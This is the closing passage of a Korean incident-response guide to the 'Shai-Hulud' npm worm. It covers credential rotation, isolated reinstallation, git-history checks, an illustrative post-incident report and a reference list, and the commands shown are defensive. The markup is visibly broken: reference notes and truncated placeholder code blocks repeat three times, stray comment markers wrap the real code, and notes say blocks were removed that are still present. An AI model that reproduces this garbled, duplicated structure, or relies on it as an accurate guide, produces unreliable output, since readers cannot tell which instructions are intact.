# 프로젝트별로 npm install --package-lock-only 실행 필요

echo "[*] Eradication complete at $(date)"
echo "[!] Next steps:"
echo "    1. Rotate ALL credentials (NPM, GitHub, AWS)"
echo "    2. Review git commit history for injected code"
echo "    3. Re-install dependencies from trusted sources"


```
-->
-->
-->

### 10.4 복구 단계 (Recovery)

**시스템 복원** (8시간 이내):

1. **인증 정보 전체 교체**:
   > **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```bash
> # NPM 토큰 재생성...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```bash
> # NPM 토큰 재생성...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```bash
> # NPM 토큰 재생성 [truncated]
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```bash
   # NPM 토큰 재생성
   npm token revoke <old-token>
   npm token create --read-write

   # GitHub Personal Access Token 재생성
   gh auth refresh -h github.com -s repo,workflow

   # AWS IAM 키 로테이션
   aws iam create-access-key --user-name developer
   aws iam delete-access-key --user-name developer --access-key-id OLD_KEY
   


```
-->
-->
-->

2. **클린 환경에서 재설치**:
   > **참고**: 관련 예제는 [GitHub 예제 저장소](https://github.com/docker-library)를 참조하세요.

> **참고**: 관련 예제는 [GitHub 예제 저장소](https://github.com/docker-library)를 참조하세요.

> **참고**: 관련 예제는 [GitHub 예제 저장소](https://github.com/docker-library)를 참조하세요.

```bash
   # Docker 컨테이너에서 격리된 설치
   docker run --rm -it --network none \
     -v $(pwd):/app -w /app \
     node:20-alpine sh -c "npm ci --ignore-scripts"
   ```

3. **Git 히스토리 검증**:
   > **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

```bash
   # 악성 커밋 탐지
   git log --all --oneline --grep="dependency\|package\|update" --since="2025-09-01"

   # 의심스러운 커밋 되돌리기
   git revert <commit-hash>
   ```

### 10.5 교훈 단계 (Lessons Learned)

**사후 보고서 작성** (72시간 이내):

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)
```markdown
# Shai-Hulud 사고 사후 보고서 (Post-Incident Report)

## 사고 요약
- **발생 일시**: 2025-11-15 09:30 KST
- **탐지 일시**: 2025-11-15 10:45 KST (75분 지연)
- **종료 일시**: 2025-11-15 18:00 KST
- **총 소요 시간**: 8.5시간

## 타임라인
| 시간 | 이벤트 | 담당자 |
|------|--------|--------|
| 09:30 | 개발자 A가 악성 패키지 설치 | Dev Team |
| 10:45 | Socket.dev에서 경고 수신 | Security Team |
| 11:00 | 사고 대응팀 소집 | IR Team |
| 11:30 | 네트워크 격리 완료 | NetOps Team |
| 14:00 | 악성 코드 제거 완료 | Security Team |
| 16:00 | 인증 정보 교체 완료 | DevOps Team |
| 18:00 | 서비스 복구 완료 | All Teams |

## 근본 원인 (Root Cause)
1. 개발자 워크스테이션에 실시간 스캔 도구 미설치
2. Private NPM Registry 미사용 (직접 npmjs.org 연결)
3. package-lock.json 무결성 검증 프로세스 부재

## 개선 조치 (Corrective Actions)
1. **즉시** (1주):
   - [ ] 전사 Socket.dev CLI 설치 의무화
   - [ ] npm install 시 --ignore-scripts 기본 설정
   - [ ] 하드웨어 보안 키 배포 (YubiKey 500개)

2. **단기** (1개월):
   - [ ] Private NPM Registry 구축 (Verdaccio)
   - [ ] CI/CD 파이프라인에 SBOM 생성 통합
   - [ ] 개발자 보안 교육 실시

3. **중장기** (3개월):
   - [ ] SIEM 룰 강화 (npm 관련 이벤트 탐지)
   - [ ] 사고 대응 자동화 (Playbook 자동 실행)
   - [ ] 공급망 보안 정책 문서화 및 감사

## 예상 비용
- 인시던트 대응 인력: 8시간 × 5명 = 500만원
- 하드웨어 키: 500개 × 2만원 = 1,000만원
- 보안 도구 라이선스: 월 300만원
- **총 비용**: 약 1,800만원

## 교훈
1. 공급망 공격은 더 이상 "만약"이 아니라 "언제"의 문제
2. 실시간 탐지 도구가 없으면 75분의 대응 지연 발생
3. 다층 방어(Defense in Depth)가 필수


```
-->
-->
-->

## 11. 참고 자료 (References)

### 11.1 공식 보안 권고사항

1. **CISA (Cybersecurity & Infrastructure Security Agency)**
   - NPM Supply Chain Attack Advisory (2025-11)
   - URL: https://www.cisa.gov/news-events/alerts/2025/11/15/npm-supply-chain-attack

2. **NIST (National Institute of Standards and Technology)**
   - NIST SP 800-161 Rev. 1: Cybersecurity Supply Chain Risk Management
   - URL: https://csrc.nist.gov/publications/detail/sp/800-161/rev-1/final

3. **NPM Security Team**
   - NPM Security Best Practices
   - URL: https://docs.npmjs.com/security

4. **MITRE ATT&CK Framework**
   - T1195: Supply Chain Compromise
   - URL: https://attack.mitre.org/techniques/T1195/

### 11.2 기술 분석 리포트

5. **GitLab Vulnerability Research Team**
   - Shai-Hulud Technical Analysis (2025-09)
   - URL: https://about.gitlab.com/blog/2025/09/17/npm-shai-hulud-analysis/

6. **Socket.dev Research**
   - The Rise of Self-Replicating Worms in NPM
   - URL: https://socket.dev/blog/shai-hulud-worm-analysis

7. **Snyk Research**
   - NPM Ecosystem Security Report 2025
   - URL: https://snyk.io/reports/npm-ecosystem-security-2025/

8. **Aqua Security**
   - Dead Man's Switch in Supply Chain Attacks
   - URL: https://blog.aquasec.com/dead-mans-switch-supply-chain

### 11.3 오픈소스 도구

9. **Socket.dev CLI**
   - GitHub: https://github.com/socketsecurity/socket
   - 실시간 공급망 위협 탐지 도구

10. **Snyk**
    - GitHub: https://github.com/snyk/snyk
    - 종합 취약점 스캔 도구

11. **OSV Scanner (Google)**
    - GitHub: https://github.com/google/osv-scanner
    - OSV 데이터베이스 기반 스캔 도구

12. **Syft (Anchore)**
    - GitHub: https://github.com/anchore/syft
    - SBOM 생성 도구

13. **Grype (Anchore)**
    - GitHub: https://github.com/anchore/grype
    - 취약점 스캔 도구

14. **lockfile-lint**
    - GitHub: https://github.com/lirantal/lockfile-lint
    - lockfile 무결성 검증 도구

### 11.4 법규 및 컴플라이언스

15. **개인정보보호법 (한국)**
    - 법제처: https://www.law.go.kr/법령/개인정보보호법

16. **정보통신망법 (한국)**
    - 법제처: https://www.law.go.kr/법령/정보통신망이용촉진및정보보호등에관한법률

17. **전자금융거래법 (한국)**
    - 법제처: https://www.law.go.kr/법령/전자금융거래법

18. **GDPR (EU)**
    - Official Text: https://gdpr.eu/

### 11.5 사고 사례 연구

19. **Nx / s1ngularity 공격 포스트모템**
    - URL: https://nx.dev/blog/s1ngularity-postmortem

20. **SolarWinds Supply Chain Attack (참고 사례)**
    - CISA Analysis: https://www.cisa.gov/solarwinds

21. **Log4j Vulnerability (참고 사례)**
    - NIST: https://nvd.nist.gov/vuln/detail/CVE-2021-44228

### 11.6 학술 논문 및 연구

22. **"Software Supply Chain Attacks: A Systematic Literature Review"**
    - Authors: Torres-Arias et al.
    - DOI: 10.1145/3412841.3442028

23. **"Backstabber's Knife Collection: A Review of Open Source Software Supply Chain Attacks"**
    - Authors: Ohm et al.
    - DOI: 10.1007/978-3-030-52683-2_1

24. **"Dependency Confusion: How I Hacked Into Apple, Microsoft and Dozens of Other Companies"**
    - Author: Alex Birsan
    - URL: https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610

### 11.7 추가 학습 자료

25. **OWASP Top 10 CI/CD Security Risks**
    - URL: https://owasp.org/www-project-top-10-ci-cd-security-risks/

26. **SLSA Framework (Supply-chain Levels for Software Artifacts)**
    - URL: https://slsa.dev/

27. **Sigstore (Code Signing)**
    - URL: https://www.sigstore.dev/

28. **CycloneDX (SBOM Standard)**
    - URL: https://cyclonedx.org/

---

**관련 태그**: #NPM #Supply-Chain-Attack #Worm #Security-Incident #SBOM #2FA #Shai-Hulud #DevSecOps #MITRE-ATT&CK #Incident-Response

## 결론

NPM "Shai-Hulud" 자가 복제 웜 공격은 초기 180개 패키지에서 **796개 이상**으로 확산되었으며, 2025년 11월에는 **Dead Man's Switch** 기능이 추가된 2.0 버전이 등장했습니다.

동시에 발생한 9월 대규모 npm 침해(26억+ 다운로드 패키지 감염)와 Nx/s1ngularity 공격까지 고려하면, 2025년은 npm 생태계 역사상 가장 심각한 공급망 보안 위기의 해로 기록될 것입니다.

CISA 경고에 따라 모든 조직은 즉시 의존성 감사를 실시하고, GitLab Vulnerability Research Team이 권장하는 보안 도구를 적극 활용해야 합니다. 올바른 설정과 지속적인 모니터링을 통해 안전하고 효율적인 환경을 구축할 수 있습니다.

---

**마지막 업데이트**: 2025-11-15 (Shai-Hulud 2.0, CISA 경고, Nx 공격 등 추가)